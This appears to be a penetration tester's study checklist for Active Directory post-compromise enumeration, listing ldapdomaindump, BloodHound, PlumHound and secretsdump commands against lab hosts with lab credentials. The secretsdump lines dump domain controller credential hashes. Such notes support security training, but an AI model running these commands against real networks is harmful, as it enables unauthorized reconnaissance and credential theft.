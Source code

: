 
![[Pasted image 20241110192337.png]]

```
Domain Enumeration with 

- [ ] ldapdomaindump 
- [ ] Bloodhound 
- [ ] Domain Enumeration with Plumhound 
- [ ] Domain Enumeration with PingCastle 
```



<h2>Post-Compromise Enumeration</h2>


- [ ] ldapdomaindump
```
ldapdomaindump ldaps://10.10.10.182 -u 'Cascade.local\ArkSvc' -p 'w3lc0meFr31nd'
```

```
ldapdomaindump ldaps://<Domain_IP> -u 'Marvel\fcastle' -p 'w3lc0meFr31nd' -o <directory_name>
```





- [ ] BloodHound

Neo4j
```
neo4j console
```

```
neo4j
neo4j
neo4j1
password
```

run bloodhound
```
bloodhound
```

Ingestor
```
bloodhound-python -d Cascade.local -u ArkSvc -p 'w3lc0meFr31nd' -ns 10.10.10.182  -c all 
```





- [ ] Plumhound
```
git clone https://github.com/PlumHound/PlumHound.git
cd PlumHound
pip3 install -r requirements.txt
```

```
python3 PlumHound.py --easy -p password
```

```
python3 Plumhound.py -x tasks/default.tasks -p password
```
Open the index.html





- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```



- [ ] PingCastle
- [ ] 